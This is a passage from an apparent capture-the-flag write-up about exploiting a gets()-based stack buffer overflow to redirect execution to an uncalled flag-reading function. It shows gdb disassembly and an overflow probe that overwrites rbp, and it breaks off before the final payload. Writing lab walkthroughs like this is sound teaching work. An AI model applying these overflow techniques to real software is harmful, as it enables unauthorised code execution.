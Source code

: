 With my newfound knowledge of binary exploitation, I figured I would have to
overwrite the return pointer on the stack somehow, so the program calls the
`super_generic_flag_reading_function_please_ret_to_me` function that isn't
called at all in the original.

The only input we have control over is again a call to `gets();`

Let's look at the disassembly in gdb:

```
(gdb) disas main
Dump of assembler code for function main:
   0x00000000004013f4 <+79>:    call   0x4010a0 <puts@plt>
   0x00000000004013f9 <+84>:    lea    rdi,[rip+0xca0]        # 0x4020a0
   0x0000000000401400 <+91>:    call   0x4010a0 <puts@plt>
   0x0000000000401405 <+96>:    lea    rdi,[rip+0xd0c]        # 0x402118
   0x000000000040140c <+103>:   call   0x4010a0 <puts@plt>
   0x0000000000401411 <+108>:   lea    rdi,[rip+0xd48]        # 0x402160
   0x0000000000401418 <+115>:   call   0x4010a0 <puts@plt>
   0x000000000040141d <+120>:   lea    rax,[rbp-0x20]
   0x0000000000401421 <+124>:   mov    rdi,rax
   0x0000000000401424 <+127>:   call   0x4010e0 <gets@plt>
   0x0000000000401429 <+132>:   mov    eax,0x0
   0x000000000040142e <+137>:   leave
   0x000000000040142f <+138>:   ret
End of assembler dump.
```

We see again multiple calls to `<puts@plt>` and right after a call to
`<gets@plt>`. There is no `cmp` and `jne` to be found in this challenge though.

The goal is to overwrite the _return address_. This is a memory address also
stored in memory, and the program will move execution to that memory address
once it sees a `ret` instruction. In this 'vanilla' state, the return address
always goes to the assembly equivalent of an `exit()` function. Let's see if we
can overwrite it by giving too much input:

```
(gdb) break *0x000000000040142f
Breakpoint 1 at 0x40142f
(gdb) run < <(python3 -c "print('a' * 56)")
-- Breakpoint 1 hit --
(gdb) info registers
rax            0x0                 0x0
rbx            0x401430            0x401430
rsi            0x7ffff7f7d883      0x7ffff7f7d883
rdi            0x7ffff7f804e0      0x7ffff7f804e0
rbp            0x6161616161616161  0x6161616161616161
rsp            0x7fffffffd898      0x7fffffffd898
rip            0x40142f            0x40142f <main+138>
```

As you can see, the $rbp register is completely overwritten with `0x61`'s.
Let's check the $rsp register to see where the `main()` function tries to go
after `ret`:
